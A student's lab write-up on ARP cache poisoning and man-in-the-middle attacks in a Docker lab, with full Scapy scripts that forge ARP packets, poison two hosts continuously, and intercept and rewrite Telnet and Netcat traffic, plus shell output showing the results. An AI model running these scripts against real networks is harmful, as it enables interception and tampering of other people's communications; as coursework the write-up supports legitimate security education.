





# LAB 06_AitM_2

The objective of this laboratory is to gain familiarity with the ARP protocol and perform ARP spoofing attack simulations.

I followed the guide using the Ubuntu environment, installed Docker, and built the containers using `docker-compose.yml`.

Upon the initial startup of the containers, I verified and recorded the details of the three machines:


I used the following Python code for all scripts (located in the `/script` directory):
```python
from scapy.all import *

IP_A  = "10.9.0.5"
MAC_A = "02:8c:8b:1a:d2:70"

IP_B  = "10.9.0.6"
MAC_B = "da:ed:ef:b2:e5:dd"

IP_M  = "10.9.0.105"
MAC_M = "ba:6c:5e:7d:76:89"
```
*Note: MAC addresses may change if containers are rebuilt.*

---
## Task 1: ARP Cache Poisoning
### 1.A (using ARP Request: op=1)
**Objective:** Construct an ARP request on host M that poisons host A’s ARP cache by associating B’s IP address with M’s MAC address.

**Implementation:** The following program was executed on M:
```python
# Build an Ethernet frame
E = Ether(src=MAC_M, dst=MAC_A)
 # Create a forged ARP request:
A = ARP(psrc=IP_B, pdst=IP_A, hwsrc=MAC_M, op=1)
# Encapsulate the ARP packet inside the Ethernet frame
pkt = E / A
sendp(pkt)
```
ARP request is usually broadcast (The sender does not know the target’s MAC yet). 
When Host A receives any ARP packet (request or reply), It looks at the sender fields psrc (sender IP) and hwsrc (sender MAC) and updates its ARP cache with that information.

**Result:**
After execution, the ARP cache on Host A was checked:
HOST A:
```bash
gabriele@gabriele-ThinkCentre-M900:~/Desktop/Labsetup$ docker exec -it A-10.9.0.5 /bin/bash
root@2960c82b0318:/# arp -n
Address HWtype HWaddress Flags Mask Iface
10.9.0.6 ether ba:6c:5e:7d:76:89 C eth0
10.9.0.105 ether ba:6c:5e:7d:76:89 C eth0
```
Host A incorrectly identifies B's MAC address as `ba:6c:5e:7d:76:89` (M's MAC), indicating the poisoning was successful.

### 1.B (using ARP reply op=2)
**Objective:** Use an ARP Reply packet to map B's IP address to M's MAC address in A's cache.

**Implementation:**
```python
E = Ether(src=MAC_M, dst=MAC_A)
A = ARP(
    psrc=IP_B,
    pdst=IP_A,
    hwsrc=MAC_M,
    hwdst=MAC_A,
    op=2
)
pkt = E / A
sendp(pkt)
```

### Scenario 1 (B’s IP is already in A’s cache)
**Result:**
Host A already has an entry for B. The attack causes A to update this entry, associating B (10.9.0.6) with M's MAC address.
```bash
gabriele@gabriele-ThinkCentre-M900:~/Desktop/Labsetup/volumes$ docker exec -it M-10.9.0.105 /bin/bash
root@3c24ce0274ec:/# python3 volumes/arp_reply.py
.
Sent 1 packets.
root@3c24ce0274ec:/# exit
exit
gabriele@gabriele-ThinkCentre-M900:~/Desktop/Labsetup/volumes$ docker exec -it A-10.9.0.5 /bin/bash
root@2960c82b0318:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   ba:6c:5e:7d:76:89   C                     eth0
10.9.0.105               ether   ba:6c:5e:7d:76:89   C                     eth0
```
The cache entry is successfully overwritten.

### Scenario 2 (B’s IP is not in A’s cache)
**Implementation:** The command `arp -d 10.9.0.6` was used to clear the cache on A.

**Result:**
```bash
gabriele@gabriele-ThinkCentre-M900:~/Desktop/Labsetup/volumes$ docker exec -it M-10.9.0.105 /bin/bash
root@3c24ce0274ec:/# python3 volumes/arp_reply.py
.
Sent 1 packets.
root@3c24ce0274ec:/# exit
exit
gabriele@gabriele-ThinkCentre-M900:~/Desktop/Labsetup/volumes$ docker exec -it A-10.9.0.5 /bin/bash
root@2960c82b0318:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.105               ether   ba:6c:5e:7d:76:89   C                     eth0
```
The unsolicited ARP reply is ignored, and no cache entry is created because A has not initiated communication with B.

### Task 1.C (using ARP gratuitous message).
**Objective:** Construct a gratuitous ARP request to map B’s IP address to M’s MAC address.

**Implementation:**
```python
MAC_BCAST = "ff:ff:ff:ff:ff:ff"
E = Ether(src=MAC_M, dst=MAC_BCAST)
A = ARP(
    psrc=IP_B,
    pdst=IP_B,
    hwsrc=MAC_M,
    hwdst=MAC_BCAST,
    op=1
)
pkt = E / A
sendp(pkt)
```

### Scenario 1 (B’s IP is already in A’s cache)
**Result:**
Before: 10.9.0.6 → MAC_B
After: 10.9.0.6 → MAC_M

Host A updates its ARP cache successfully.
```bash
root@2960c82b0318:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   ba:6c:5e:7d:76:89   C                     eth0
10.9.0.105               ether   ba:6c:5e:7d:76:89   C                     eth0
```


### Scenario 2 (B’s IP is not in A’s cache)
**Result:**
The gratuitous ARP request is ignored by the operating system, and no entry is created.

## Task 2: MITM Attack on Telnet using ARP Cache Poisoning
### Step 1 (Launch the ARP cache poisoning attack).
**Objective:** Launch a continuous ARP cache poisoning attack against both A and B.

**Implementation:**
```python
import time

pkt_A = Ether(src=MAC_M, dst=MAC_A) / ARP(
    psrc=IP_B, hwsrc=MAC_M, pdst=IP_A, op=1
)

pkt_B = Ether(src=MAC_M, dst=MAC_B) / ARP(
    psrc=IP_A, hwsrc=MAC_M, pdst=IP_B, op=1
)

print("MITM started")
while True:
    sendp(pkt_A, verbose=False)
    sendp(pkt_B, verbose=False)
    time.sleep(4)
```
**Observation:**
Both A and B map each other's IP to M's MAC address.
If the program on M is stopped while A is pinging B, A recovers B's true MAC address:
```bash
root@2960c82b0318:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   ba:6c:5e:7d:76:89   C                     eth0
10.9.0.105               ether   ba:6c:5e:7d:76:89   C                     eth0
root@2960c82b0318:/# ping 10.9.0.6
PING 10.9.0.6 (10.9.0.6) 56(84) bytes of data.
64 bytes from 10.9.0.6: icmp_seq=10 ttl=64 time=0.197 ms
64 bytes from 10.9.0.6: icmp_seq=11 ttl=64 time=0.137 ms
^C
--- 10.9.0.6 ping statistics ---
25 packets transmitted, 7 received, 72% packet loss, time 24610ms
rtt min/avg/max/mdev = 0.053/0.114/0.197/0.043 ms
root@2960c82b0318:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:8c:8b:1a:d2:70   C                     eth0
10.9.0.105               ether   ba:6c:5e:7d:76:89   C                     eth0
```
This recovery occurs because A attempts to resolve the IP again by sending a genuine ARP request. B responds with its real MAC address, correcting the cache.

### Step 2 (Testing)
**Objective:** Verify the attack's effect when IP forwarding is disabled.

**Implementation:** IP forwarding was disabled on M, instructing it to drop packets not destined for itself.

**Result:**
When pinging B from A, the connection was highly unstable. Most packets were lost, but some replies were received. This happens because A occasionally recovers B's true MAC address before the MITM script re-poisons the cache.

To make the attack more effective, I reduced the interval of false ARP packets to 1 second. This poisoned the cache more frequently, resulting in stable failure of the ping command (as expected, since M intercepts but does not forward).  



### Step 3 (Turn on IP forwarding)
**Objective:** Enable IP forwarding on M and observe the traffic flow.  

**Result:**
Pinging B from A produced the following output:


```bash
64 bytes from 10.9.0.6: icmp_seq=1 ttl=63 time=0.313 ms
```
The `ttl=63` confirms the packet traversed an extra hop (Host M).

```bash
From 10.9.0.105 icmp_seq=2 Redirect Host(New nexthop: 6.0.9.10)
```
An ICMP Redirect was sent by M to A. This happens because:
- A sends the packet to M (due to ARP poisoning).
- M forwards it to B.
- Linux detects that the source (A) and destination (B) are on the same network.
- M sends a redirect to inform A that the correct next-hop is B directly.

However, since the MITM script continues to re-poison the ARP cache, A ignores the redirect and continues using M as the gateway.

### Step 4 (Launch the MITM attack)
**Objective:** Intercept and modify Telnet TCP packets between A and B.

**Implementation:**
The script must:
- Receive TCP packets.
- Modify the payload (replacing characters with 'z').
- Recalculate checksums and forward the spoofed packet.



**Code used:**
```python
def spoof_pkt(pkt):
    if pkt.haslayer(IP) and pkt.haslayer(TCP):
        # Modify packets coming from A
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            del newpkt[TCP].payload

            if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                # Replace printable characters with 'z' and leave whitespace untouched
                newdata = bytes(
                    byte if byte <= 0x20 else ord('z')
                    for byte in data
                )
                send(newpkt / newdata, verbose=False)
            else:
                send(newpkt, verbose=False)

        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            send(newpkt, verbose=False)

f = f"tcp and not ether src {MAC_M}"
sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

## Task 3: MITM Attack on Netcat using ARP Cache Poisoning
**Objective:** Intercept a Netcat connection and replace a specific string in the message.

**Observation:**
Initially, the Netcat connection fails when the ARP poisoning program is running because M is silent (not forwarding packets).


**Implementation:**
The following script was executed on M to enable forwarding and replace the name "gabriele" with "aaaaaaaa".
```python
NAME = b"gabriele"
REPL = b"a" * len(NAME)

def spoof_pkt(pkt):
    if pkt.haslayer(IP) and pkt.haslayer(TCP):
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            del newpkt[TCP].payload

            # Modify name
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                newdata = data.replace(NAME, REPL)
                send(newpkt / newdata, verbose=False)
            else:
                send(newpkt, verbose=False)

        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            send(newpkt, verbose=False)
            
print("mitm_4_netcat started")
f = f"tcp and not ether src {MAC_M}"
sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

**Result:**
The connection is established, and the text is correctly replaced in the transmission.


### Observation
I should mention that I used an LLM to help me generate the python code.